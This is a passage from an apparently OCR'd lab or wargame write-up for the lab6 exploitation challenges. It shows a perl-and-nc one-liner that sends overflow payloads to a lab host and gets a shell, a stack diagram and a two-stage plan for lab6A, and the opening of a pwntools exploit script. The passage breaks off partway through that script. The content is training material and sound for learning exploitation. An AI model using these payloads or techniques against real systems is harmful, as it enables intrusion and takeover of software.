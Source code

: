 0xf7e ^ 0x0c4d = 0x0333  
0x0333 ^ 0x0db2 = 0xe81  
The 0 make sure only offset part of ret address is touched.
```bash
(perl -e 'print "A" x 4 . "\x26\x26\x26\x26" . "A" x 12 . "\x0d\x1c\x01\x01" . "A" x 8 . "\x0a"' ; perl -e 'print "b" x 4 . "\x34\x34\x34\x34" . "b" x 12 . "\x40\x10\x10\x10" . "b" x 8 . "\x0a"'; perl -e 'print "A" x 4 . "\xe0\xe0\xe0\xE0" . "A" x 12 . "\x02\x1d\x01\x01" . "A" x 8 . "\x0a"' ; perl -e 'print "b" x 4 . "\x0D\x0D\x0D\x0D" . "b" x 12 . "\xb0\x10\x10\x10" . "b" x 8 . "\x0a"'; echo "whoami"; ) | nc 192.168.56.101 6642
----------- FALK OS LOGIN PROMPT -----------
AAAAAAAA################Mr your password: Authentication failed for user AAAA&&&&AAAAAAAAAAAA
                         ########ÜÜÜÜìííí[W[W+s֜3e¦8
Enter your username: Enter your password: Authentication failed for user AAAAààààAAAAAAAAAAAAAAAAAAAA############ÿÿÿÿ####²
WELCOME MR. FALK
lab6A
```

> **lab6A**

```bash
+===============+
|__ret_to_libc__|
|____old_ebp____|<- ebp
|______ebx______|<- esp + 0xc0
|               |<- esp + 0xbc (merchant.sfunc)
\               \
/               /
|               |
|               |<- esp + 0x3c (merchant.desc)
\               \
/               /
|               |
|               |<- esp + 0x1c (merchant.name)
|_______________|<- esp + 0x18 (choice)
```
We do a 2-stage process to accomplish this task.  
stage 1:  
* overwrite `sfunc` to `printf@plt` to leak infomation.  

stage 2:
* overwrite `sfunc` to `make_note`.  
* use stack smash to utlize `make_note`.  

Final exploitation:
```python
#!/usr/bin/env python2
 
from pwn import *
  
# context.log_level = 'debug'
   
# load elf
e = ELF("/levels/lab06/lab6A")
   
# stage 1


while True:
    # start process
    p = process(e.path)
             
    p.recvuntil("Choice: ")
    p.sendline("1")
    p.recvuntil("name: ")
    # p.sendline("%50$8x%51$8x%52$8x%53$8x%54$8x")
```